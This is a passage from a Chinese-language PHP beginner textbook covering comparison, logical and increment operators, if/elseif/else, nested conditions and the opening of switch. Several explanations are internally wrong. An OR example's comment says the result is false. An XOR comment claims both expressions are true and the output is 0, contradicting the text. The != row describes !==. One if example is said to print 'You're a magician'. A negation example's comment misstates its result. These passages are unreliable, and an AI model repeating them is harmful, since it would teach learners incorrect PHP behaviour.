

## 比较运算符

PHP 中的比较运算符用于比较变量值，并根据比较结果生成布尔值（true 或 false）。下表展示了 PHP 中可用的主要比较运算符。

| 运算符 | 用法 | 含义 |
|---|---|---|
| == | $a == $b | 检查 $a 和 $b 的值是否相等，不考虑类型 |
| === | $a === $b | 检查两个值是否相等且类型相同 |
| != | $a != $b | 检查两个值是否不同，不考虑类型 |


| 运算符 | 语法 | 描述 |
|---|---|---|
| `<>` | `$a <> $b` | 与 != 的作用相同 |
| `!=` | `$a != $b` | 检查两个值是否不同 **或** 类型是否不同 |
| `<` | `$a < $b` | 检查 $a 是否小于 $b |
| `>` | `$a > $b` | 检查 $a 是否大于 $b |
| `<=` | `$a <= $b` | 检查 $a 是否小于或等于 $b |
| `>=` | `$a >= $b` | 检查 $a 是否大于或等于 $b |

## 相等运算符示例

```php
<?php
$a = 5;
$b = "5";
$result = ($a == $b);
echo $result;
?>
```

在此示例中，将存储在变量 $result 中的值为 "**真**"，因为变量 $a 和 $b 在值上相等。如果运行此代码，您将得到值 1 作为变量 $result 的值，这对应于布尔值 **真**。

但是，如果将 (==) 运算符替换为 (===) 运算符，代码执行将显示 0，这对应于变量 $result 的布尔值 **假**。

```php
<?php
$a = 5;
$b = "5";
$result = ($a === $b);
echo $result;
?>
```

## 不等运算符示例

```php
<?php
$a = 5;
$b = 10;
$result = ($a != $b);
echo $result;
?>
```

执行此代码将显示值 1，这对应于布尔值真（存储在变量 $result 中的值），因为变量 $a 和 $b 具有不同的值。

## 严格不等运算符 (!==) 示例

```php
<?php
$a = 5;
$b = "5";
$result = ($a !== $b);
echo $result;
?>
```

在此代码中，变量 $result 被设置为 true，因为变量 $a 和 $b 具有不同的类型。事实上，
$a 是 Integer 类型，$b 是 string 类型。

**太空船（<=>）比较运算符**：比较两个表达式。根据第一个表达式是小于、等于还是大于第二个表达式，返回 -1、0 或 1。

## 示例：

```php
<?php
$a = 10;
$b = 5;
$c = 20;
$result1 = ($a <=> $b);
$result2 = ($a <=> $c);
echo $result1;
echo "<br>";
echo $result2;
?>
```

运行此代码显示：

- $result1 的值为 **1**，因为 $a 的值远大于 $b 的值。
- $result2 的值为 **-1**，因为 $a 的值小于 $c 的值。

总而言之，PHP 中的比较运算符用于比较变量值，并根据比较生成布尔结果（真或假）。它们可用于验证值之间的等于、不等、大于、小于及其他比较。主要的比较运算符包括 ==、===、!=、<>、!=、>、<、>=、<= 和 <=>。它们对于在 PHP 脚本中评估条件和做出决策至关重要。

## 逻辑运算符

PHP 中的逻辑运算符用于组合或反转布尔表达式（真或假）。正如您在本书后面将看到的，这些运算符通常用于通过组合多个逻辑表达式来创建复杂条件。

下表说明了 PHP 中可用的主要逻辑运算符：

| 运算符 | 符号 | 用法 | 含义 |
|---|---|---|---|
| AND | && | $a && $b | AND：如果 $a 和 $b 都为真，则返回真 |
| OR | || | $a || $b | OR：如果 $a 或 $b 至少有一个为真，则返回真 |
| XOR | XOR | $a XOR $b | 如果只有 $a 为真或只有 $b 为真，则返回真 |
| 否定 | ! | !$a | 返回布尔表达式的反向 |

AND 运算符（&& 或 and）：如果所有组合的布尔表达式都为真，则 AND 运算符返回真。

- 真 && 真 得 真
- 真 && 假 得 假
- 假 && 真 得 假
- 假 && 假 得 假

## 示例：

```php
<?php
$a = 10 > 2;
$b = 5 < 1;
$result = ($a && $b); // $result is false because $b is false
echo $result;
```

在此代码中，我们有两个比较表达式：

$a = 10 > 2;：此表达式比较 10 是否大于 2。由于情况如此，$a 取布尔值真。

$b = 5 < 1;：此表达式比较 5 是否小于 1。由于情况并非如此，$b 取布尔值假。

然后我们有第三个表达式，它使用逻辑运算符 &&（AND）来组合 $a 和 $b 的布尔值：

```php
$result = ($a && $b); // $result is false because $b is false
```

&&（AND）运算符仅在两个组合表达式都为真时才返回真。在此例中，由于 $a 为真且 $b 为假，$result 取布尔值假。

最后，执行此代码将使用 echo 函数显示 $result 的值，它显示假，因为 $result 为假。

**OR 运算符（|| 或 or）**：如果组合的布尔表达式中至少有一个为真，则 OR 运算符返回真。

- 真 || 真 得 真
- 真 || 假 得 真
- 假 || 真 得 真
- 假 || 假 得 假

## 示例：

```php
<?php
$a = 10 > 2;
$b = 5 < 1;
$result = ($a || $b); // $result is false because $b is false
echo $result;
?>
```

在此代码中，变量 $a 和 $b 分别存储上一示例中的表达式 10 > 2 和 5 < 1。

但是，$result = ($a || $b); 使用逻辑运算符 ||（OR）来组合 $a 和 $b 的布尔值。由于 $a 为真且 $b 为假，表达式 $a || $b 的求值结果为真。因此，变量 $result 取值为真。

执行此代码将显示变量 $result 的值，即 1（真），因为 $result 包含值 true。

**XOR（异或 OR）运算符**：是一种用于评估布尔表达式的逻辑运算符。当且仅当一个表达式为真而另一个不为真时，XOR 返回 true（或 1），但不能同时为真。如果两个表达式都为真或都为假，XOR 返回 false（或 0）。

总而言之，XOR 可以由以下真值表表示：

- **真 XOR 真 得 假**
- **真 XOR 假 得 真**
- **假 XOR 真 得 真**
- **假 XOR 假 得 假**

在编程术语中，XOR 运算符常用于执行比较操作，该操作要求仅当一个表达式为真时结果才为真。

## 示例：

```php
// Definition of variables
$x = 20;
$y = 10;

// Use the XOR operator in an expression
$result = ($x < 8 XOR $y > 5);

// Display result
echo $result; // Display "0" (false) because both expressions are true
```

在此示例中，表达式 $x < 8 为假，因为 $x 的值为 20；表达式 $y > 5 为真，因为 $y 的值为 10。由于两个表达式中只有一个为真，XOR 操作的结果将为真，在 PHP 中用 1 表示。

**运算符 !（NOT）**：是一种逻辑一元运算符，用于反转布尔表达式的结果。它用于否定或反转表达式的布尔值。以下是带示例的摘要：

```php
// Definition of variables
$x = 20;
$y = 10;
$expression1 = ($x > $y);
$expression2 = !$expression1;
```

在此代码中，我们有两个变量 $x 和 $y，分别包含值 20 和 10。

接下来，我们有一个表达式 $expression1，它使用 > 比较运算符将 $x 与 $y 进行比较。由于 $x 是 20 而 $y 是 10，表达式 $x > $y 将为真，因此 $expression1 将求值为真。

最后，我们有第二个表达式 $expression2，它使用 !（NOT）运算符来反转 $expression1 的结果。由于 $expression1 为真，“!”运算符将其转换为假，因此 $expression2 将求值为假。

简言之，执行此代码后，$expression1 将为真，$expression2 将为假。

## 自增和自减运算符

自增和自减运算符用于以更简洁、更高效的方式增加或减少数值变量的值。

### 自增运算符 "++"

"++" 运算符用于将数值变量的值增加 1。

## 示例：

```php
<?php
$a = 5;
$a++; // Equals $a = $a + 1;
echo $a; // Display 6
?>
```

在此示例中，我们有一个初始化为值 5 的变量 $a。接下来，我们在 $a 变量上使用“++”自增运算符。该运算符将 $a 的值增加 1。

因此，在 $a++ 操作之后，$a 的值变为 6。因此，如果执行此代码，$a 的新值（6）将在屏幕上显示为“6”。

简而言之，$a++ 操作将 $a 的值从 5 增加到 6。

### 自减运算符 "--"

"--" 运算符用于将数值变量的值减少 1。

## 示例：

```php
<?php
```


```php
$b = 10;
$b--; // Equals $b = $b - 1;
echo $b; // Display 9
?>
```

在本示例中，我们有一个初始值为 10 的变量 $b。接下来，我们在 $b 变量上使用 "--" 递减运算符。该运算符将 $b 的值减 1。

因此，在 $b-- 操作后，$b 的值变为 9。因此，执行此代码将使用 echo 函数显示 $b 的新值，即 9。

简而言之，$b-- 操作将 $b 的值减少了 1，从 10 变为 9，然后我们使用 echo 显示了这个新值。

## 注意

这些运算符可以在变量之前（前缀）或之后（后缀）使用，其行为会根据位置略有不同。

### 前缀用法示例：

```php
<?php
$x = 5;
echo ++$x; // Display 6 (the value of $x is first increased, then displayed)
?>
```

在本示例中，我们有一个初始值为 5 的变量 $x。接下来，我们在 $x 变量上使用前缀形式的 "++" 递增运算符 (++$x)。

前缀递增运算符（在变量之前）会将 $x 的值增加 1，然后返回这个新值。因此，即使在显示之前，$x 的值也会增加 1，从 5 变为 6。

简而言之，++$x 操作先将 $x 的值增加 1，然后在屏幕上显示这个新值。

### 后缀用法示例：

另一方面，如果我们将 ++ 运算符放在变量 $x 之后，执行以下代码将显示 5（先显示 $x 的值，然后再增加）。

```php
<?php
$x = 5;
echo $x++; // Display 5 (the value of $x is first displayed, then increased)
?>
```

### 示例：

```php
<?php
$x = 5;
$y = 2;
echo ($x++) * ($y++);
?>
```

在本示例中，我们有两个变量，$x 初始化为 5，$y 初始化为 2。然后我们使用后缀递增运算符 ($x++) 和后缀递增运算符 ($y++) 分别增加 $x 和 $y 的值。但是，这些后缀递增运算符意味着递增发生在它们所在表达式求值之后。

因此，在求值表达式 ($x++) * ($y++) 时，$x 和 $y 的值在递增之前被使用。这意味着在此操作中，$x 仍然具有值 5，$y 仍然具有值 2。该操作表示为 (5) * (2)，结果为 10。

求值表达式后，$x 和 $y 的值被递增，因此 $x 变为 6，$y 变为 3。

现在将此结果与以下代码进行比较：

```php
<?php
$x = 5;
$y = 2;
echo (++$x) * (++$y);
?>
```

在本示例中，我们使用前缀递增运算符 (++$x) 和前缀递增运算符 (++$y) 分别增加 $x 和 $y 的值。前缀递增运算符意味着递增发生在值在表达式中被使用之前。

因此，在求值表达式 (++$x) * (++$y) 时，$x 和 $y 的值在被用于表达式之前被递增。这意味着在求值表达式时，$x 变为 6，$y 变为 3。

然后该表达式被转换为 (6) * (3)，结果为 18。

求值表达式后，$x 和 $y 的值保持递增状态，因此 $x 具有值 6，$y 具有值 3。

## 运算符 - 的后缀和前缀用法

在 PHP 中，由 "--" 表示的递减运算符的工作原理与递增运算符 ++ 相同，不同之处在于它将变量的值减 1 而不是加 1。它有两种用法：作为前缀 (--$x) 或作为后缀 ($x--)。

前缀递减运算符 (--$x) 在将变量用于表达式之前先递减其值。例如，如果 $x 最初为 5，--$x 将其值减为 4 然后返回 4。

后缀递减运算符 ($x--) 在表达式中使用变量的值之后再递减该变量的值。例如，如果 $x 最初为 5，$x-- 先在表达式中使用值 5，然后将 $x 递减到 4。

## 结论

在本章中，我们探讨了 PHP 编程的基础知识，重点介绍了变量、常量和运算符。我们了解到，变量是 PHP 程序中存储和操作数据的基本元素。此外，我们还发现了选择有意义的变量名并遵循良好的声明和使用实践的重要性。

另一方面，常量允许我们定义不可更改的值，一旦定义就无法修改。它们对于存储在整个程序执行过程中不会更改的值特别有用。

最后，我们探讨了 PHP 中不同类型的运算符，包括算术运算符、逻辑运算符、比较运算符和赋值运算符。这些运算符使我们能够执行各种任务，例如数学计算、逻辑比较和变量值的操作。

通过结合这些概念，PHP 开发人员能够创建满足用户需求的动态、功能性程序。在接下来的章节中，我们将继续探讨高级 PHP 编程概念，以加强我们对这种强大语言的理解和技能。

## 练习

### 练习 1：

编写一个 PHP 脚本，定义一个包含你姓名的 name 变量和一个包含你年龄的 age 变量。接下来，脚本应显示一条消息，内容为："你好 [你的姓名]，你 [你的年龄] 岁！"。

### 练习 2：

编写一个 PHP 脚本，将一个人的姓、名和年龄存储在变量中，并使用连接运算符以句子形式显示此信息。

### 练习 3：

编写一个 PHP 程序，将产品价格存储在 $price 变量中，将数量存储在 $quantity 变量中，并通过将价格乘以数量来计算并显示订单总金额。

## 第 2 章

### 条件结构

在编程中，条件结构对于根据特定条件执行代码块至关重要。在 PHP 中，这是一种广泛用于 Web 开发的编程语言，掌握这些结构是编写高效、功能性代码的基础。

在本章中，我们将详细探讨 PHP 中可用的各种条件结构。我们的目标是让你深入理解这些结构，并熟悉它们的实际用途。我们将探讨 "if"、"else"、"elseif"、"switch" 等条件语句，以及 PHP 近期版本中引入的新 "match" 结构。我们还将探讨三元条件结构，以使你的代码更简洁、更易读。

通过一系列实际示例和用例，你将能够获得在自己的 PHP 项目中有效使用这些结构所需的技能。无论你是初学者还是经验丰富的开发人员，本章都将为你提供掌握 PHP 条件结构和编写强健、功能性代码的坚实基础。

言归正传，让我们深入 PHP 控制结构的世界，发现如何利用它们来创建动态、高性能的 Web 应用程序。

### if 结构：

"if" 结构用于在条件求值为 true 时执行一个代码块。如果条件为 false，则与 "if" 结构关联的代码块将被忽略。

if 结构的一般语法是：

```
if (condition) {
Instructions to execute ;
}
```

if 关键字后跟一对圆括号 ( )。在括号内，你指定要评估的条件。此条件可以是 true 或 false 的布尔表达式。

在条件之后，你在花括号 { } 之间打开一个代码块。这个代码块包含如果条件求值为 true 将要执行的指令。

这种控制结构仅在指定条件为 true 时才允许执行代码块。如果条件为 false，则不执行代码块。

### 示例：

```php
<?php
$age = 20;
if ($age >= 18) {
echo "You're over 18.";
}
?>
```

在本示例中，我们定义了一个值为 20 的变量 $age。if 控制结构检查 $age 的值是否大于或等于 18。如果条件为 true，即年龄为 18 岁或以上，则屏幕上将显示消息 "You are over 18"。否则，如果条件为 false（年龄小于 18），则不显示任何内容。在本示例中，由于 $age 的值为 20，执行此代码将显示句子 "You're a magician"。




## 结构 if...else

PHP 中的 if...else 控制结构允许您在条件为 true 时执行一段代码，在条件为 false 时执行另一段代码。一般语法如下：

```
if (condition) {
Code to execute if condition1 is true;
} else {
Code to execute if condition is false
}
```

if 关键字后跟括号 () 中的条件。如果条件的计算结果为 true，则执行 if 后面花括号 {} 内的代码块。否则，如果条件的计算结果为 false，则执行 else 后面花括号 {} 内的代码块。

if 语句后面花括号 {} 内的代码块包含条件为 true 时要执行的指令。

else 关键字用于定义一个替代代码块，当 if 条件为 false 时将执行该代码块。

else 后面花括号 {} 内的代码块包含 if 中的条件为 false 时要执行的指令。

## 示例：

```
<?php
$age = 14;
if ($age >= 18) {
  echo "You're over 18.";
} else {
  echo "You're a minor.";
}
?>
```

在本示例中，如果变量 $age 的值大于或等于 18，将显示消息 "You're over 18."；否则，将显示消息 "You are a minor."。在本示例中，由于 $age 的值为 14，if 条件不成立，因此将执行 else 块。因此，代码执行将显示句子 "You're a minor."。



## 控制结构 if...elseif...else

if...elseif...else 结构允许您按顺序处理多个条件。当您需要评估多个不同情况时，它非常有用。

条件结构的第三种情况由三个块组成：if 块、elseif 块和 else 块。此结构的语法如下：

```
if (condition1) {
Code to execute if condition1 is true;
} elseif (condition2) {
Code to execute if condition2 is true;
} else {
Code to execute if none of the previous conditions are true
}
```

"if (condition1) { ... }"：我们首先检查 condition1 是否为 true。如果是，则执行此指令块中的代码。这就像说，“如果这是真的，就执行此操作。”

"elseif (condition2) { ... }"：如果 condition1 为 false，我们继续检查 condition2。如果 condition2 为 true，则执行此块内的代码。这就像说，“如果第一个不是真的，但这个是真的，就执行此操作。”

"else { ... }"：如果 condition1 和 condition2 均不为 true，则执行此块内的代码。这是一种备用方案：如果之前的任何条件均不满足，则执行此操作。

简而言之，这有点像一系列决策。首先检查一个条件，如果第一个不满足，则检查另一个，最后如果之前的任何条件都不满足，我们就有一个最后的备选方案。

## 示例：

```
<?php
$grade = 75;
if ($grade >= 90) {
    echo "Excellent work!";
} elseif ($grade >= 80) {
    echo "Very good work!";
} else {
    echo "Can do better";
}
?>
```

此代码使用 if...elseif...else 结构来评估变量 $grade 的值并根据此值显示消息。其工作原理如下：

变量 $grade 初始化为值 75。

程序首先使用 if ($grade >= 90) 条件检查 $grade 的值是否大于或等于 90。由于情况并非如此（75 不大于或等于 90），我们转到下一个条件。

接下来，程序使用 elseif 条件 ($grade >= 80) 检查 $grade 的值是否大于或等于 80。由于 75 小于 80，此条件也不满足。

最后，由于之前的任何条件都未满足，程序执行 else 子句内的代码块。然后它显示 "Can do better"。

简而言之，此代码显示 "Can do better" 是因为 `$grade` 的值不够高，无法满足 if 和 elseif 块的条件。



请注意，在 PHP 中，您可以在 if 子句后使用任意数量的 elseif 子句。这允许您一个接一个地测试多个不同的条件，直到其中一个为 true，或者直到所有条件都已测试且没有一个为 true。让我们按如下方式修改前面的示例：

```
<?php
$grade = 64;
if ($grade >= 90) {
    echo "Excellent work!";
} elseif ($grade >= 80) {
    echo "Very good work!";
} elseif ($grade >= 70) {
    echo "Good work!";
} elseif ($grade >= 60) {
    echo "Average work!";
} elseif ($grade >= 50) {
    echo "Can do better!";
} else {
    echo "Change group";
}
?>
```

此代码评估变量 $grade 的值并根据此分数显示消息。

- 如果分数大于或等于 90，将显示消息 "Excellent work!"。
- 否则，如果分数大于或等于 80 但严格小于 90，将显示消息 "Very good work!"。
- 否则，如果分数大于或等于 70 但严格小于 80，将显示消息 "Good work!"。
- 否则，如果分数大于或等于 60 但严格小于 70，将显示消息 "Average work!"。
- 否则，如果分数大于或等于 50 但严格小于 60，将显示消息 "Can do better!"。
- 否则，如果以上任何条件均不满足（即分数低于 50），将显示消息 "Change group"。

在此示例中，分数为 64，因此将显示消息 "Average work!"，因为这是所有评估的条件中第一个被满足的条件。



请注意，在初始 if 之后连续使用多个 elseif 语句时，第一个计算结果为 TRUE 的 elseif 语句将被执行。换句话说，只有当前面的 if 和所有前面的 elseif 语句均计算结果为 FALSE，且您的 elseif 语句计算结果为 TRUE 时，才会执行该 elseif 语句。这提供了一系列备选条件，其中每个 elseif 指令按顺序评估，直到满足某个条件，从而确保控制逻辑平滑且精确。

## 条件结构和布尔变量

如果 if 或 elseif 语句中要评估的条件是一个布尔变量，其行为非常简单直接。如果布尔变量包含值 TRUE，则计算结果为 true（TRUE）；如果包含值 FALSE，则计算结果为 false（FALSE）。

## 示例：

```
<?php
$truth = true; // Declaration of a Boolean variable with value TRUE
if ($truth) {
    echo "The condition is true."; // This instruction will be executed because $truth contains the value TRUE
} else {
    echo "The condition is false";
}
?>
```

在此示例中，布尔变量 $truth 包含值 TRUE，因此 if 语句中的条件 $truth 计算结果为 TRUE，执行 if 块内的代码，显示 "The condition is true."。如果 $truth 变量包含值 FALSE，则将执行 else 块，显示 "The condition is false"。

在某些情况下，评估条件的否定更有意义。在前面的示例中，如果您想测试布尔变量 $truth 的否定，可以在条件中简单地使用逻辑否定运算符 (!)。具体做法如下：

```
<?php

$truth = true; // Declaration of a Boolean variable with value TRUE

if (!$truth) {
    echo "The condition is false."; // This instruction will be executed because !$truth is evaluated as FALSE

} else {
    echo "The condition is false";
}

?>
```

## 条件嵌套

条件嵌套，也称为嵌套条件控制结构，是 PHP 编程中的常见做法。它包括将一个条件语句放在另一个条件语句内部。可以创建一系列嵌套的 if 语句来处理不同的条件，但随着条件数量的增加，这种方法可能会迅速变得复杂。

以下是 PHP 中条件嵌套的示例：

```
<?php

$grade = 17;
```


```php
if($grade >= 18) {
    echo "Excellent work!";
} else {
    if($grade >= 16) {
        echo "Very good work!";
    } else {
        if($grade >= 14) {
            echo "Good job!";
        } else {
            echo "Can do better!";
        }
    }
}
?>
```

运行此代码后，您应得到以下结果：



本示例中的代码是一系列嵌套 if 语句，用于评估 $grade 变量，以根据学生的表现提供消息。

- 首先，代码检查分数是否为 18 或以上。如果是，则显示 "Excellent work!"。
- 如果第一个条件不为真，则意味着分数低于 18。代码接着进入第二个条件，该条件检查成绩是否大于或等于 16。如果是，则显示 "Very good work!"。
- 如果第二个条件也不为真，则意味着分数低于 16。代码接着进入第三个条件，该条件检查成绩是否大于或等于 14。如果是，则显示 "Good job!"。
- 最后，如果上述条件均不为真，则分数低于 14，代码显示 "Can do better!"。

由于变量 $grade 的值为 17，第一个 if 语句的条件未被检查，代码移到下一条语句。

第二个 if 语句（嵌套在第一个的 else 中）检查 $grade 是否大于或等于 16，这为真（$grade = 17），因此该条件满足，并显示消息 "Very good work!"。

总之，嵌套控制结构（如前面示例中使用的那些）对于基于多个条件做出决策非常有效。但是，随着条件数量的增加，代码的可读性和可维护性可能会迅速恶化。嵌套控制结构的复杂性会使代码难以理解和管理，增加出错的风险，并使未来的修改更加费力。

因此，密切关注代码的设计和可读性非常重要，尽可能避免过度嵌套的控制结构。只要有可能，最好使用 switch 结构或函数等替代方案来简化代码逻辑，使其更易于理解和维护。

## 多个条件

多个条件（也称为组合条件）允许我们在单个控制语句中评估多个布尔表达式。当我们需要同时检查多个标准以做出决策时，通常会使用这些条件。

使用逻辑运算符可以简化控制结构，因为它减少了嵌套条件块的数量。这使得代码更易于阅读和维护。

### 使用逻辑 AND 运算符（&&）

逻辑 AND 运算符（&&）仅当所有组合条件均为真时返回真。示例如下：

```php
<?php
$a = 10;
$b = 25;
if($a > 5 && $b < 100) {
    echo "You succeeded, condition true";
} else {
    echo "Sorry, condition false";
}
?>
```

执行此代码后，您将得到以下结果：



在此示例中，我们有两个变量 $a 和 $b。我们使用逻辑运算符 AND（&&）来组合两个条件：

if 条件使用逻辑运算符 && 组合两个条件：$a > 5 和 $b < 100。
由于两个条件均为真，组合条件 $a > 5 && $b < 100 也为真。因此，将执行 if 块并显示消息 "You succeeded, condition true"。

### 使用逻辑 OR 运算符（||）

逻辑 OR 运算符（||）在至少一个组合条件为真时返回真。示例如下：

```php
<?php
$role = "admin";
$permission = "read";

if ($role == "admin" || $permission == "write") {
    echo "You have the necessary authorizations.";
} else {
    echo "You do not have the necessary authorization";
}
?>
```

运行此代码后，您将得到以下结果：



在此示例中，if 语句的条件使用逻辑 OR 运算符（||）组合两个条件：$role == "admin" 和 $permission == "write"。第一个条件 $role == "admin" 得到验证，因为变量 $role 包含值 "admin"。由于我们使用逻辑 OR 运算符，只要有一个条件为真，整个 if 语句就为真。因此，组合条件也被视为真。结果，将执行 if 块。

### 组合逻辑运算符

我们也可以组合多个逻辑运算符用于更复杂的条件。示例如下：

```php
<?php
$age = 25;
$role = "admin";

if ((($age >= 18 && $role == "admin") || $role == "moderator")) {
  echo "You have access to advanced features";
} else {
  echo "You do not have access to advanced features";
}
?>
```

运行此代码后，您应得到以下结果：



在此示例中，我们有两个条件使用逻辑 OR 运算符（||）组合。第一个条件（$age >= 18 && $role == "admin"）检查用户年龄是否为 18 岁或以上 且 角色是否为管理员。仅当组成它的两个子条件（即 $age >= 18 和 $role == "admin"）均为真时，此条件才为真。在我们的情况中，两个子条件确实均为真。

第二个条件 $role == "moderator" 检查用户是否具有版主角色。

由于我们使用逻辑 OR 运算符（||），只要有一个条件为真，整个 if 语句就为真。在我们的示例中，由于第一个组合条件为真（$age >= 18 && $role == "admin"），用户将有权访问高级功能，从而显示消息 "You have access to advanced features"。

## switch 控制结构

PHP 的 switch 控制结构是一个强大的工具，可让您根据表达式的值执行不同的操作。

您可以将其视为一个可以在不同位置之间切换的开关。每个位置代表一个不同的 case。如果开关设置为与表达式值对应的 case，则将执行与该 case 关联的操作。

### 语法和用途

switch 结构的一般语法如下：

```
switch (expression) {
case value1:
instruction1;
break;
case value2:
instruction2;
break;
...
default:
default_instruction;
}
```

在此语法中：

- **expression**：这是您希望评估的表达式。它可以是变量、常量或任意表达式。

- **value1, value2, ...** 这些是您希望与表达式进行比较的值。每个值对应一个特定的 case。

- **instruction1, instruction2, ...** 这些是如果表达式与对应值匹配时要执行的指令。

- **break**：此指令指示 PHP 在执行对应 case 的指令后退出 switch 结构。如果没有 break，PHP 将继续执行后续 case 的指令，这可能导致意外行为。

- **default**：这是一个可选选项，用于指定如果没有任何值与表达式匹配时要执行的代码。

switch 结构只评估一次表达式，并将其结果与 case 中指定的每个值进行比较。如果找到匹配项，则执行相应的指令，直到遇到 break 为止。如果没有找到匹配项且存在 **default** 子句，则执行默认指令。

以下是一个具体示例来说明这个想法：假设您想根据星期几显示不同的消息。您可以为此使用 switch 结构：

